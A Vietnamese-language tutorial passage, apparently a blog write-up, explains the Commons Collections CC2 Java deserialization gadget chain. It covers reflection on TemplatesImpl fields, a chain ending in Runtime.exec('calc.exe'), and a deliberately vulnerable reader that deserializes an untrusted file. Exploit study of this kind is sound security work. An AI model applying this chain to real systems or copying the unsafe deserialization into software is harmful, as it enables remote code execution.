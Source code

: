 ``` java

        template.newTransformer();
    }
}
```

Về cơ bản thì đoạn mã này có công dụng là xác định đường dẫn của classpath như ta nói ở trên -> để thêm class Evil vào đường dẫn này -> và class evil sẽ có nội dung là in ra dòng chữ aaaaaaa -> tiếp theo sẽ khởi tạo một object từ class `TemplatesImpl` -> sau đó tải class TemplatesImpl ở thời điểm runtime để lợi dùng reflect api có thể truy vấn đến các method, biến của class này -> do đó ta sẽ truy cập đến các trường, biến private trong class này các biến mà ta đề cập ở trên để có thể đến được các gadget là _name, _class, _bytecodes, _tfactory do những biến này đề là private cho nên phải dùng setAccessible(true) để có thể thay đổi giá trị của chúng -> sau đó gọi newTransformer để access đến getTransletInstance để có thể kích hoạt gadget chain

![image](https://hackmd.io/_uploads/H1SU9HXp0.png)

-> bây giờ ta sẽ đi vào cụ thể gadget chain của cc2

*Đây là full chain của cc2:

``` java
ObjectInputStream.readObject()
    PriorityQueue.readObject()
    PriorityQueue.heapify()
        PriorityQueue.siftDown()
            PriorityQueue.siftDownUsingComparator()
                TransformingComparator.compare()
                    InvokerTransformer.transform()
                        Method.invoke()
                            TemplatesImpl.newTransformer()
                                TemplatesImpl.getTransletInstance()
                                TemplatesImpl.defineTransletClasses()
                                    TransletClassLoader.defineClass()
                                newInstance()
                                    Runtime.getRuntime().exec("calc.exe")
```

Về cơ bản thì nó sẽ đi qua các method mà ta dùng ở trên

``` java
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.PriorityQueue;

public class Main {
    public Main() {
    }

    public static void main(String[] args) {
        String filename = "src/cc2.bin";
        System.out.println("Reading file: " + filename);

        try {
            // Đọc dữ liệu từ file cc2.bin
            FileInputStream fileIn = new FileInputStream(filename);
            ObjectInputStream in = new ObjectInputStream(fileIn);
            Object obj = in.readObject();
            in.close();
            fileIn.close();
            System.out.println("Deserialized object: " + obj.toString());
        } catch (ClassNotFoundException | IOException e) {
            e.printStackTrace();
        }
    }
```